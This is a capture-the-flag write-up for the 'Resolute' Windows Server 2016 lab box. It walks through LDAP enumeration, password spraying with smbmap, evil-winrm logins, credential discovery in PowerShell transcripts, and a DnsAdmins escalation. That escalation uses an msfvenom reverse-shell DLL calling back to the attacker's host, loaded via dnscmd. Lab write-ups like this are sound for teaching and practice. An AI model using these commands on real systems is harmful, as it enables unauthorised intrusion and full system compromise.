

## Overview

Resolute is a Windows Server 2016 box that exposed credentials via ldap which was anonymously accessible. Credentials were reused with other accounts which allowed for logon to the box as melanie via winrm. I came across a PSTranscript file where I found credentials for an account named ryan which was used to log in to the box again with additional privileges. Bloodhound was used to determine that the user was a member of the DnsAdmins group. Being part of this group provided the ability to abuse the dns service by adding a malicious dll that created a reverse shell and provided a shell as 'nt authority\system'

## Enumeration

**Software**

* Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)

**Port Scan**

```
nmap -vv -Pn -sT -A -p- 10.10.10.169 -oN /mnt/data/boxes/resolute/_full_tcp_nmap.txt
```

* 53/tcp - dns
* 88/tcp - Microsoft Windows Kerberos (server time: 2020-03-17 14:51:48Z)
* 135/tcp - Microsoft Windows RPC
* 139/tcp - Microsoft Windows netbios-ssn
* 389/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 389/udp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 445/tcp - Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
* 464/tcp - kpasswd5? 
* 593/tcp - Microsoft Windows RPC over HTTP 1.0
* 636/tcp  - tcpwrapped
* 3268/tcp - Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
* 3269/tcp - tcpwrapped
* 5985/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 9389/tcp - .NET Message Framing
* 47001/tcp - Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
* 49664/tcp open  Microsoft Windows RPC
* 49665/tcp open - Microsoft Windows RPC
* 49666/tcp open - Microsoft Windows RPC
* 49667/tcp open - Microsoft Windows RPC
* 49671/tcp open - Microsoft Windows RPC
* 49676/tcp open - Microsoft Windows RPC over HTTP 1.0
* 49677/tcp open - Microsoft Windows RPC
* 49684/tcp open - Microsoft Windows RPC
* 49712/tcp open - Microsoft Windows RPC
* 61319/udp open - tcpwrapped
* 64614/tcp open - unknown

## Steps (user)

I started off by trying a dns zone transfer but was unsuccessful. I also tried browsing the smb shares but was not able gain any useful information. 

Next I moved onto ldap, I used ldapsearch to query all objects and found the text 'Account created. Password set to Welcome123!' in the description field for Marko Novak's account.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 
```



I ran the command again selecting only samaccountname and saved the results to a file called users.txt. I had to manually pair down the list to only include usernames.

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.10.10.169 | grep -i samaccountname | awk '{print $2}' > users.txt
```



I could have used something like Hydra but instead I just created a quick and dirty bash script. It basically tries to authenticate to the server using smbmap, trying each username in users.txt with the Welcome123! password. 

```
for i in `cat users.txt`; do echo "trying user: $i"; smbmap -H 10.10.10.169 -u $i -p 'Welcome123!'; done
```

Once the username melanie was tried, smbmap returned some data indicating that authentication was successful.



I wasn't able to access any of the smb shares as user melanie but I was able to connect via evil-winrm with melanie:Welcome123!

```
evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!
```



While enumeating the file system I came across an unusual folder on the root of C:\ called PSTranscripts.



In the file C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt I found what looked like credentials **ryan:Serv3r4Admin4cc123!**



I logged on as user ryan with the new credentials via evil-winrm. In Ryan's desktop folder I found a file called note.txt with the text "Email to team: - due to change freeze, any system changes (apart from those to the administrator account) will be automatically reverted within 1 minute".



## Steps (root/system)

I used a tool called Bloodhound to get some additional information. First I needed to get [SharpHound](https://github.com/BloodHoundAD/BloodHound/tree/master/Ingestors),a collector for Bloodhound, on the system to collect the data that would later be imported into Bloodhound. While logged in as the user ryan I transferred SharpHound.exe to the host via smb. I set up an smb server using imapcket's smbserver.py

> Bloodhound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Using the copy command, SharpHound.exe was copied to the target

```
copy \\10.10.14.21\share\SharpHound.exe
```

And ran 'sharphound -c all' to collect all information



The zip file was copied back to my machine

```
copy 20200617200004_BloodHound.zip \\10.10.14.21\share\
```

I started neo4j (neo4j console) and then bloodhound



I then clicked the upload button and selected the zip file. I ran a few of the built in queries to see what it would tell me. It showed that james is a member of contractors which is a member of dnsadmins. I wasn't immediately aware of any vulnerabilities associated with being a member of dnsadmins, however, the name of the box is Resolute so I took that as a hint and did some research.





I found an article called [DNS Admin Privesc in Active Directory (AD)(Windows)](https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2) which details a privilege escalation method that involved creating a dll that contains reverse tcp code that can then be injected into the dns.exe process.

The dll was created with msfvenom by specifying the usual reverse shell parameters and formatting it (-f) as a dll.

```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=10.10.14.21 LPORT=4200 -f dll > pe.dll
```



I created a share using impacket's smbserver.py

```
sudo ~/tools/impacket/examples/smbserver.py share `pwd`
```

Next I started a netcat listener (nc -lvnp 4200) and on the box and ran the [dnccmd](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/dnscmd) command specifying /config, /serverlevelplugin, and the unc path to the dll file.

* /config - Changes values in the registry for the DNS server and individual zones. This command also modifies the configuration of the specified server. Accepts server-level and zone-level settings.
* /serverlevelplugindll - Specifies the path of a custom plug-in. 

```
dnscmd 10.10.10.169 /config /serverlevelplugindll \\10.10.14.21\share\pe.dll
```

Lastly I restarted the dns service

```
cmd /c "sc stop dns"
cmd /c "sc start dns"
```

And received a callback and shell as 'nt authority/system'


